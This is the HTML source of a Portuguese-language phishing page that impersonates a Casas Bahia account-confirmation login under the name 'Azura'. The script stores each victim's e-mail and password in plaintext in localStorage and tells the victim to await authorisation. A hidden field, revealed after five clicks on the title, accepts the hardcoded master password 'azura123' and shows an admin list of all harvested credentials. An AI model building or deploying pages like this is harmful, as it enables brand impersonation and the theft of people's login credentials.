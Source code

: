 <!DOCTYPE html>
<html lang="pt-BR">
<head>
  <meta charset="UTF-8" />
  <title>Login Azura</title>
  <style>
    body {
      background-image: url('fundo.jpg'); /* certifique-se de que 'fundo.jpg' está no mesmo diretório */
      background-size: cover;
      background-position: center;
      background-repeat: no-repeat;
      font-family: Arial, sans-serif;
      margin: 0;
      padding: 0;
      display: flex;
      height: 100vh;
      align-items: center;
      justify-content: center;
      position: relative;
      overflow: hidden;
    }

    .img-lateral {
      position: absolute;
      top: 50%;
      transform: translateY(-50%);
      width: 120px;
      height: auto;
      z-index: 1;
    }

    .img-esquerda {
      left: 0;
    }

    .img-direita {
      right: 0;
    }

    .login-box {
      background-color: #002776;
      color: white;
      padding: 30px;
      border-radius: 10px;
      width: 320px;
      box-shadow: 0 0 15px rgba(0,0,0,0.4);
      text-align: center;
      position: relative;
      z-index: 2;
    }

    .login-box img.logo {
      width: 180px;
      margin-bottom: 15px;
    }

    input, textarea {
      width: 100%;
      padding: 10px;
      margin-top: 10px;
      margin-bottom: 15px;
      border: none;
      border-radius: 5px;
    }

    .captcha-box {
      background-color: #f0f0f0;
      color: #333;
      font-weight: bold;
      padding: 15px;
      margin-bottom: 10px;
      border-radius: 6px;
      font-size: 24px;
      letter-spacing: 8px;
      text-shadow: 1px 1px 2px #aaa;
      cursor: pointer;
      user-select: none;
      font-family: 'Courier New', Courier, monospace;
    }

    button {
      background-color: #ffcc29;
      color: #002776;
      padding: 10px;
      width: 100%;
      border: none;
      font-weight: bold;
      border-radius: 5px;
      cursor: pointer;
    }

    .error {
      color: red;
      font-size: 14px;
      margin-top: 10px;
    }

    #acesso-secreto, #area-admin {
      display: none;
      margin-top: 20px;
    }

    #area-admin {
      background: #ffffff;
      color: #000;
      padding: 10px;
      border-radius: 5px;
      text-align: left;
      max-height: 200px;
      overflow-y: auto;
    }
  </style>
</head>
<body>

  <!-- IMAGENS LATERAIS -->
  <img src="esquerda.jpg" alt="Imagem Lateral Esquerda" class="img-lateral img-esquerda">
  <img src="direita.jpg" alt="Imagem Lateral Direita" class="img-lateral img-direita">

  <div class="login-box">
    <img src="file_00000000cbcc61f9883baa9f7e4a0e12.png" alt="Logo Casas Bahia" class="logo" />
    <h2 id="titulo">Confirmar sua conta </h2>
    <form onsubmit="enviarFormulario(event)">
      <input type="email" id="email" placeholder="E-mail" required />
      <input type="password" id="senha" placeholder="Senha" required />
      <div class="captcha-box" id="captcha-text" onclick="gerarNovoCaptcha()" title="Clique para atualizar o código">0000</div>
      <input type="text" id="captcha-input" placeholder="Digite o código acima" required />
      <input type="password" id="acesso-secreto" placeholder="Senha secreta para acesso" />
      <button type="submit">Entrar</button>
    </form>

    <div class="error" id="erro"></div>

    <div id="area-admin">
      <h3>👁️ Registros Salvos:</h3>
      <ul id="lista-logins"></ul>
    </div>
  </div>

  <script>
    const senhaMestre = "azura123";
    let captchaCode = "";

    function gerarNovoCaptcha() {
      captchaCode = Math.random().toString(36).substring(2, 6).toUpperCase();
      document.getElementById('captcha-text').innerText = captchaCode.split('').join(' ');
    }

    gerarNovoCaptcha();

    let cliqueContador = 0;
    document.getElementById("titulo").addEventListener("click", () => {
      cliqueContador++;
      if (cliqueContador >= 5) {
        document.getElementById("acesso-secreto").style.display = "block";
        cliqueContador = 0;
      }
      setTimeout(() => cliqueContador = 0, 3000);
    });

    function enviarFormulario(event) {
      event.preventDefault();
      const email = document.getElementById("email").value;
      const senha = document.getElementById("senha").value;
      const captchaDigitado = document.getElementById("captcha-input").value.toUpperCase().replace(/\s/g, '');
      const senhaSecreta = document.getElementById("acesso-secreto").value;
      const erro = document.getElementById("erro");

      if (captchaDigitado !== captchaCode) {
        erro.innerText = "Captcha incorreto!";
        gerarNovoCaptcha();
        return;
      }

      erro.innerText = "";

      const login = { email, senha, data: new Date().toLocaleString() };
      let logins = JSON.parse(localStorage.getItem("logins")) || [];
      logins.push(login);
      localStorage.setItem("logins", JSON.stringify(logins));

      alert("Login enviado. Aguarde autorização.");

      if (senhaSecreta === senhaMestre) {
        mostrarAreaAdmin();
      }
    }

    function mostrarAreaAdmin() {
      const lista = document.getElementById("lista-logins");
      const dados = JSON.parse(localStorage.getItem("logins")) || [];
      lista.innerHTML = "";

      dados.forEach((item) => {
        const li = document.createElement("li");
        li.textContent = `${item.data} - ${item.email} / ${item.senha}`;
        lista.appendChild(li);
      });

      document.getElementById("area-admin").style.display = "block";
    }
  </script>
</body>
</html>
